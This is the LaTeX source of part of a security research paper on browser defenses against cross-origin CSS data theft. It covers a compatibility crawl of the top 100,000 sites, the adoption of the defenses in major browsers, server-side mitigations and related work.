To measure how often web servers fail to provide the correct MIME type for CSS files, we collected metrics by crawling the top 100,000 web sites ranked by Alexa~\cite{alexa} and scanned through all of the style sheet resources in their home pages. We are interested in all CSS references including using HTML link tags and CSS \texttt{@import} directives. Furthermore, some web sites dynamically add CSS links using JavaScript while the page loads. To achieve a more thorough scan for these CSS references, we conducted our experiment to directly render these web pages with an instrumented WebKit browser while recording information of all CSS loads until the web page finishes loading.

\paragraph{Results}
From the top 100,000 web sites, we fetched a total of 325,562 CSS references, including 256,344 HTML link tags and 69,218 CSS \texttt{@import} directives. These results include 271,303 same-origin references and 54,259 cross-origin references. We did not include data for sites unreachable during our evaluation, due to unresponding servers or domain name errors. Our results are shown in Table~\ref{table:results}.

\begin{table*}
\centering
\begin{tabular}{|c|c|c|c|c|c|} \hline
&\multicolumn{2}{|c}{Valid MIME}&\multicolumn{3}{|c|}{Invalid MIME}\\
\cline{2-6}
&Well-Formed&Mal-Formed&Well-Formed&Mal-Formed&HTTP Errors\\ \hline
Same-Origin&270,281&902&733&67&2,100\\ \hline
Cross-Origin&53,993&160&660&0&428\\
\hline\end{tabular}
\caption{Results for CSS references in top 100,000 Sites.}
\label{table:results}
\end{table*}

In the top 100,000 sites, our crawler logged a total of 3,987 (1.22\%) misconfigured CSS references that did not provide the correct Content-Type response header. We noticed that 2,528 of these CSS references retrieved HTTP responses with error status codes i.e. 400 bad request, 403 forbidden, 404 not found, 500 internal server error, 502 bad gateway or 503 service temporarily unavailable, and have no affect to the rendering of the page if blocked. For HTTP responses that did not specify the Content-Type header at all, we considered them identical as setting an empty MIME type. Excluding the HTTP errors, we logged a total of 595 CSS references that provided an empty MIME type. There were as many as 731 CSS references that provided the \verb|text/html| MIME type for CSS files, which is normally for HTML documents. However, within these \texttt{text/html} responses we found that some of them were less serious conditions, where the specified URL was not found and was redirected to a landing page or an error page (with HTTP status code 200). Excluding CSS references with HTTP errors, the percentage of the common misconfigured MIME types for CSS files in the top 100,000 sites are shown in Table~\ref{table:MIME}. Other MIME types represent various less-frequent Content-Type headers that our crawler collected for CSS files, e.g. \verb|content/unknown|,\verb|application/x-javascript| and \verb|text/xml|. Applying the strict approach of MIME type checking would block a total of 660 cross-origin CSS loads on 611 of the top 100,000 sites.

\begin{table}
\centering
\begin{tabular}{|c|c|c|} \hline
Content-Type&Percentage\\ \hline
\texttt{text/html}&50.10\%\\ \hline
Empty (excluding HTTP errors)&40.78\%\\ \hline
\texttt{text/plain}&3.91\%\\ \hline
\texttt{application/octet-stream}&2.74\%\\ \hline
Other MIME types&2.47\%\\
\hline\end{tabular}
\caption{Common misconfigured MIME types for CSS files in top 100,000 Sites.}
\label{table:MIME}
\end{table}

Our crawler reported that 1,129 (0.35\%) CSS references were mal-formed, in which the CSS resource failed to have a syntactically valid CSS construct at the beginning of the file. We noticed that one of the common syntax errors was starting the CSS file with an HTML style tag. For the CSS references with incorrect MIME types, we found that there were 67 CSS files which were syntactically mal-formed. In our observations, all of the cross-origin CSS files with invalid MIME types were syntactically well-formed. Thus, applying the conservative approach with additional CSS parsing test would avoid inducing undesired CSS failures on all top 100,000 sites.

%We ran a scan across the top 500,000 URLs looking for cross-origin loads of CSS with an invalid MIME type. Valid MIME types are defined as text/css, application/x-unknown-content-type, and empty. There were a total of 140 URLs detected that referenced cross-origin CSS with broken MIME types. There were 60 URLs that would be considered as broken, including 13 with text/plain, 15 with text/html, 31 with application/css, and 1 with application/x-pointplus. If we apply the heuristics of the conservative approach, only one URL that served text/html MIME would fail to load, which was severely broken because it had valid CSS rules after a style tag.

\paragraph{Discussion}
Based on our results, deploying the strict approach would break CSS references on 0.61\% of the top web sites due to blocking cross-origin CSS loads with invalid MIME types. Although this fraction may seem low, browser vendors have historically been reluctant to deploy changes that break popular web sites. Our observations also suggest that misconfigured servers often fail to provide the Content-Type header or send the \texttt{text/html} MIME type regardless of the served content type.

In our observations, the conservative approach would not break a single CSS reference in the top $100,000$ web sites. The conservative approach is an appealing defense because it blocks the cross-origin CSS attack while maximizing web site compatibility.

Due to practical limitations of our automated scanning, all of the tested links were unauthenticated. It is possible that more sites will be broken after logging in.

\subsubsection{Adoption}
Our proposal has been adopted by several major browsers, including Google Chrome, Opera, Safari and Firefox. Our proposal requires no changes to existing web servers and only modifies the browser. We implemented the conservative approach of stricter cross-origin CSS loading in a patch to WebKit, the open source web browser engine component integrated in Safari and Google Chrome. The WebKit patch was first deployed in Google Chrome 4.0.249.78, and also accepted in Safari 4.0.5. Note that the cross-origin CSS raw text leak is tightened by this patch because read access to cross-origin CSS raw text is limited to well-formed imports. Inspired by our WebKit patch, the exact same heuristic was adopted in Opera 10.10. Mozilla adopted the strict approach for loading cross-origin CSS files in Firefox 3.7.

The interpretation of valid MIME types for cross-origin CSS on each browser slightly differs as shown in Table~\ref{table:adoption}. All browsers allow the correct \texttt{text/css} MIME type, Firefox and WebKit-based browsers also defaultly accept files with empty string or \texttt{application/x-unknown-content-type}\linebreak MIME type, which are normally used to trigger the browser's content-sniffing algorithm. We noticed that Firefox 3.7 allows some unknown MIME types such as \texttt{*/*} and also bogus MIME types that lack a slash such as \texttt{text}. Known MIME types represent all the predefined MIME types for common media types with the exception of \texttt{text/css}, such as \texttt{text/html} and \texttt{image/gif}.

\begin{table}
\centering
\begin{tabular}{|c|c|c|c|c|} \hline
Content-Type&FF&Opera&Safari&Chrome\\ \hline
%text/css&&&&\\ \hline
\texttt{application/x-}&&C&&\\ 
\texttt{unknown-content-type}&&&&\\ \hline
Empty&&C&&\\ \hline
%\texttt{text}&&C&C&C \\ \hline
Bogus&&C&C&C \\ \hline
\texttt{*/*}&&C&C&C \\ \hline
\texttt{application/}&S&C&C&C\\ 
\texttt{octet-stream}&&&&\\ \hline
\texttt{text/plain}&S&C&C&C\\ \hline
\texttt{text/html}&S&C&C&C\\ \hline
Known MIME types&S&C&C&C\\
excluding \texttt{text/css}&&&&\\
\hline\end{tabular}
\caption{Adoption of proposal in major browsers. The `S' and `C' represent the strict approach and conservative approach, respectively.}
\label{table:adoption}
\end{table}

\subsubsection{Missing Content Types}

One remaining issue that is not yet addressed by our proposal is that some web
applications omit the Content-Type header entirely or send a Content-Type of
\verb|application/x-| \verb|unknown-content|. This scenario is not very common for
HTML documents but we did see 595 style sheets that lacked a Content-Type
header in our experiment. Most browsers, 
with the notable exception of Opera, do attempt to load cross-origin
style sheets that lack a MIME type in both standards mode and quirks mode,
because there is no MIME type mismatch. This behavior could open up a server
to attack if it fails to set a Content-Type header on its HTML documents. We
have not yet observed any web servers in the wild that are affected by this
vulnerability, but browsers may wish to follow Opera's lead and block such
style sheets when loaded across origins. In any case, we recommend that web
applications always set a Content-Type header.

\subsection{Other Client-Side Approaches}
There are other defensive approaches that can be deployed in browsers without modifying web servers including globally blocking cookies and tightening DOM access.  We argue that all of these approaches could either be circumvented with a variation of the attack, or would significantly reduce web site compatibility.

\paragraph{Block Cookies} 
Browsers give users the option of disabling cookies
and always send anonymous requests, thus can prevent web attackers from
stealing content on any cookie-authenticated URLs. Additionally, some browsers
restrict cross-origin resources from setting or reading cookies (``third-party
cookie blocking''). However, some sites use session cookies for cross-origin
resources, which is why browser third-party cookie blocking typically only
blocks incoming cookies, rather than outbound
cookies~\cite{jackson06thirdpartycookies}. This third-party cookie blocking
behavior is insufficient to stop the cross-origin CSS attack, since the
attacker can still hijack the user's existing authenticated session.

\paragraph{Block JavaScript Style APIs}
The same-origin policy for DOM access restricts the ability for JavaScript to
access DOM properties and methods across domains. To prevent the cross-origin
CSS attack, browsers could block DOM access to style sheet text and computed
styles loaded from cross-origin style sheets, at least when the CSS file is
malformed or has incorrect MIME type. This restriction would stop some
attacks, but the attacker could still bypass this limitation with
\texttt{background-image} property injection technique described in
Section~\ref{sec:extraction}.

%\paragraph{Stricter CSS Parsing}
%CSS parsers are tolerant of syntax errors and will resume parsing after syntax errors. The cross-origin CSS attack could be mitigated if the browser's CSS parser rejected the style sheet on the first syntax error, as it does with script libraries. However, this approach would require all web developers to strictly write well formed CSS, and would immediately break many existing web sites.

\subsection{Server-side Mitigations}
In this section, we consider approaches that can be adopted by web servers
without requiring changes to current browsers. Web applications may wish to
adopt such mitigations to protect users of browsers that have not yet adopted
our proposed defenses, such as Internet Explorer.

\paragraph{Newlines}
In the CSS specification, strings and URLs cannot directly contain newlines.
In most browsers, newlines will break CSS parsing, preventing the attacker from loading the cross-origin data.
Thus, web applications that surround potential injection points with
newlines may interfere the cross-origin CSS attack.
However, the Internet Explorer allows newlines within CSS
property strings, making newlines an ineffective server-side mitigation for this browser.

\paragraph{HTML encoding}
Another mitigation for web applications would be to HTML-encode potential attack characters in user-controlled content. For example, the CSS parsing for a string would break if it was not written in quotes. However, the attacker could bypass this barrier by injecting the \texttt{background-image} property which allows embedding strings within the \texttt{url()} notation without using quotes. We expect that escaping curly braces using \verb|&#123;| and \verb|&#125;| would be more successful; however most HTML encoding utility functions such as \verb|html_encode| in Ruby and \verb|htmlentities| in PHP refuse to encode these characters.

\paragraph{Declare Character Set Using HTTP Headers}

We observe that 22 of the top 100 web sites did not declare a character set
for HTML documents in their HTTP Content-Type header. A missing character set
may allow attacker to bypass encoding of quotes and curly braces by forcing
the UTF-7 character set, as described in Section~\ref{sec:escapes}. We
recommend that web applications always set document character sets using the HTTP Content-Type header.

\paragraph{Don't Use Ambient Authentication}
A more effective\linebreak server-side mitigation is to avoid the use of ambient authentication, including HTTP authentication and session cookies. One solution is the web-key authentication scheme~\cite{webkey} which explicitly embeds user permissions in URLs without using cookies for authentication. This approach can mitigate the attack since the attacker does not know the unguessable URL.

\section{Related Work} \label{sec:relatedwork}
In this section, we review current browser defense techniques that are used to
defend against similar attacks: content-sniffing XSS and JavaScript hijacking.
We also consider recent research proposals for secure web browsers and their
protection against the cross-origin CSS attack.

\subsection{Content-Sniffing XSS Defenses}
In a content-sniffing XSS attack, the attacker uploads a crafted chameleon
document that conforms to a benign file format (e.g. PostScript) to an honest
web site and causes the victim user's browser to treat the file as HTML and
renders the attacker's evil page in the honest site's domain. Such
vulnerabilities are caused by discrepancies between the browser's
content-sniffing algorithm and the web site's upload filter. A secure
content-sniffing algorithm~\cite{securecontentsniffing} was proposed to
protect web sites from this attack by avoiding privilege escalation and using
prefix-disjoint signatures. The \texttt{X-Content-Type-Options}
header~\cite{nosniff} proposed by Microsoft allows web sites to opt-out of
MIME sniffing in supporting browsers by specifying the \texttt{nosniff}
directive in the HTTP response header. Neither the content-sniffing algorithm
nor the \texttt{nosniff} directive are triggered for loading style sheets,
thus both approaches do not prevent the cross-origin CSS attack.

\subsection{JavaScript Hijacking Defenses}
JavaScript Hijacking~\cite{jshijacking} is a vulnerability that allows the
attacker to steal sensitive data from an honest web site that uses JavaScript
as data transport format, such as JavaScript Object Notation (JSON) messages.
Since the browser security model allows importing scripts from a different
domain, the attacker can use a script tag in their evil page to include the
target JavaScript object. A client-side mitigation is to prevent direct
execution of the responses by prefixing each JavaScript object with a
\texttt{while(1);} statement. The malicious page using script tag will execute
the infinite loop while the legitimate client application can modify the
response before executing it. A server-side defense approach is to block
malicious requests by including secret tokens in every legitimate request,
which can not be forged by the attacker. Another server-side technique to
block JavaScript Hijacking attacks is responding only to HTTP POST requests
because the script tag always uses GET requests to load external libraries.
These server-side mitigations can also be used in defense of the cross-origin
CSS attack, but puts the burden on web developers to implement secure
applications.

\subsection{OP Browser}
The OP web browser~\cite{op-browser} uses sandboxing techniques to isolate and
contain failures in browser components. Because OP attaches cookies to
cross-origin network requests just like any other browser, its architecture
does not provide any automatic protection against cross-origin CSS attacks.
However, the OP browser does maintain a detailed security audit log that could
be used by forensics experts to identify the site where the attack originated.

\subsection{Gazelle Browser}
The Gazelle browser~\cite{gazelle} is proposed as a secure web browser that exclusively controls resource protection and sharing across web sites, or principals, as a multi-principal OS. In their architecture, all cross-principal communication are explicitly mediated by the browser kernel to prevent cross-origin attacks. Cross-origin resources are protected and only retrieved if the content is a script or a style sheet, based on the Content-Type header of the HTTP response. Gazelle provides the same protection against cross-origin CSS attacks as the strict MIME type checking approach at the cost of site incompatibility. From our compatibility evaluation results, the strict approach would cause CSS failure on 611 of the top 100,000 web sites.

\section{Conclusions} \label{sec:conclusion}
In this paper, we presented two defense approaches for cross-origin CSS attacks. The strict approach is based on solely on MIME type
checking, while the conservative approach uses the CSS parser to
address web site compatibility issues. We evaluated the compatibility of our
proposed solution over the top 100,000 web sites. Without relying on web site
modifications, the conservative approach completely mitigates the attack while
maximizing site compatibility. We found that common server misconfigurations
introduced false positives in the strict approach and would cause 0.61\%
sites to render incorrectly. We recommend that web administrators should
properly configure servers to provide correct MIME types to reduce false
positives. Our proposal has been adopted in several major browsers, including
Firefox, Google Chrome, Safari and Opera.

\section*{Acknowledgements}

We thank Dave Hyatt, Sam Weinig, Maciej Stachowiak, and Adam Barth of the
WebKit project and David Baron and Boris Zbarsky of Mozilla for reviewing our implementations of cross-origin CSS defenses.

\bibliographystyle{abbrv}
\bibliography{css}

\end{document}
